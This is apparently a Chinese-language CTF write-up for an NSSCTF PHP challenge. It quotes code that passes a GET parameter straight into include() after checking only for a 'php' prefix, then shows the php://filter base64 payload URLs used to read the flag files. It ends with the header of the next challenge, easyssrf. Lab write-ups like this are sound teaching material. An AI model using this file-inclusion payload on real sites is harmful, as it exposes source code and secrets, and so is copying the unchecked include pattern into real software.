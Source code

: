 打开题目是一段php代码
```php-template=
 <?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php 
```
这段代码里出现了subste函数，这个函数是来检查字母的，这里检查前三个字母是不是php,如果是这回现Nice！！
于是get传参file=php
![](https://doc.amqyy.cn/uploads/93eefbef-0c95-4777-bda4-1dc90a4094aa.png)
这里无法直接访问flag.php
根据提示，要用php伪协议，于是构造payload
```
http://node5.anna.nssctf.cn:29347/?file=php://filter/read=convert.base64-encode/resource=flag.php
```
![](https://doc.amqyy.cn/uploads/b3d82d2b-575e-4b4c-8237-6013432befa1.png)
base64解码后
```php-template=
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");


echo   "NSSCTF{flag_is_not_here}" ."<br/>";
echo "real_flag_is_in_'flag'"."<br/>";
echo "换个思路，试试PHP伪协议呢";

```
试了一下这个不是答案,还以为用错了协议，原来是真的flag在，“flag”里而不是“fla.php”所以修改payload
```
http://node5.anna.nssctf.cn:29347/?file=php://filter/read=convert.base64-encode/resource=flag
```
![](https://doc.amqyy.cn/uploads/592e7ad0-f115-4c50-a587-9a2c6e2330e9.png)
最后解码得到flag


## [NISACTF 2022]easyssrf
>题目地址：https://www.nssctf.cn/problem/2011
>做题人：余俊康
>知识点：ssrf，php伪协议
